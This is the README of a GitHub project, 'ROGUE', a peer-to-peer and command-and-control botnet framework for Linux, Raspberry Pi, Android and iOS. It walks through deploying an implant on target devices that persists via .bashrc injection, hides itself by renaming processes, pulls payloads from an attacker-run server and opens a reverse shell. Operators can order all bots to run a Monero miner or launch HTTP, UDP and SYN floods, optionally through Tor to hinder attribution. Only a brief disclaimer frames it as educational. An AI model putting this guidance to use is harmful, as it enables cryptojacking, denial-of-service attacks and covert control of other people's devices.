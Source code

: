 # r0gue

ROGUE is a manually-deployed peer-to-peer and command-and-control (C2) botnet framework built for secure multi-device orchestration. It supports encrypted communication using AES, with optional peer-to-peer fallback if the primary C2 is unreachable.  
ROGUE supports implants on Linux laptops, Raspberry Pi, Termux (Android), and iOS environments.

---

## Installation

To clone ROGUE from your Kali system, run:

```bash
git clone https://github.com/ekomsSavior/rogue.git
cd rogue
```

Install dependencies manually:

```bash
sudo apt update
sudo apt install python3 
sudo apt install  python3-pycryptodome  
```

---

## File Structure

- `rogue_c2.py` – Encrypted command-and-control server
- `rogue_implant.py` – Bot implant for manual deployment with trigger handling, payload loader, and stealth logic
- `payloads/` – Folder containing executable modules such as:
  - `mine.py`: Real CPU-based cryptocurrency miner with pool config and resource control
  - `ddos.py`: Threaded DDoS engine supporting HTTP, TCP SYN, and UDP floods

---

## Usage

### Start the C2 Server

On your Kali controller machine:

```bash
python3 rogue_c2.py
```

### Deploy a Bot Implant

1. Copy `rogue_implant.py` to the target device.
2. Edit the `C2_HOST` and `PAYLOAD_REPO` variable in the script to match your controller’s IP.
3. Run the implant:

```bash
python3 rogue_implant.py
```

The implant will:
- Connect to the C2 server using AES-encrypted commands
- Attempt peer-to-peer fallback discovery if the C2 is unreachable
- Stealth itself using renamed process titles and hidden payload storage
- Persist by injecting itself into the target’s `.bashrc`

### Host Payloads

To serve payloads for bots to fetch:

```bash
cd payloads/
python3 -m http.server 8000
```
## Command Syntax

You can interact with connected bots using the terminal interface. Commands include:

```text
load_payload mine.py        # Instruct bot to download mine.py from payload server
run_payload mine.py         # Run the loaded mining script
reverse_shell               # Start reverse shell connection to C2 (must be listening on port 9001)
trigger_mine                # Instruct all bots to mine using mine.py
trigger_ddos                # Instruct all bots to launch DDoS using ddos.py
```

Tor Support (Optional)

Built into ddos.py, you can enable routing DDoS traffic through Tor SOCKS5 by setting: 

```bash
USE_TOR = True
```
This uses PySocks to route all flood traffic through 127.0.0.1:9050, the default local Tor proxy.

Install Tor + PySocks:

```bash
sudo apt install tor
pip3 install pysocks
```

Then start Tor:

```bash
sudo systemctl start tor@default
```

And run the DDoS module as usual:

```bash
python3 ddos.py trigger_ddos <target> <port> <duration> <threads> <mode>
```


---

### Reverse Shell

To receive a reverse shell connection:

```bash
nc -lvnp 9001
```

---

## Maintaining Bots

- ROGUE implants require Python3 and internet/network access
- Ensure `rogue_c2.py` is running to accept bot connections
- Keep your `payloads/` server online and accessible
- Update your payloads regularly for improved capabilities or evasion

---

## Payload Details

### `mine.py`

- Real CPU-based Monero miner
- Supports pool config, wallet input, and resource throttling
- Threaded hashing with runtime duration control
- Cakewallet supports xmr MONERO. edit your mine.py with your XMR MONERO address
  https://cakewallet.com/

### `ddos.py`

- Supports multiple attack modes:
  - HTTP GET flood with user-agent rotation
  - UDP flood to arbitrary ports
  - TCP SYN flood
- CLI-style arguments allow flexible targeting from C2
- Tor Benefits in DDoS Mode
  - IP obfuscation via exit nodes
  - Makes attribution and detection harder during stress testing
  - Compatible with all http, tcp, and udp flood types

---

## Disclaimer

Do not deploy ROGUE on any device, network, or system you do not own or have explicit permission to operate on. Unauthorized use of this software may violate laws. This framework is provided for educational and ethical research purposes only. The developers assume no liability and provide this software without warranty or support.
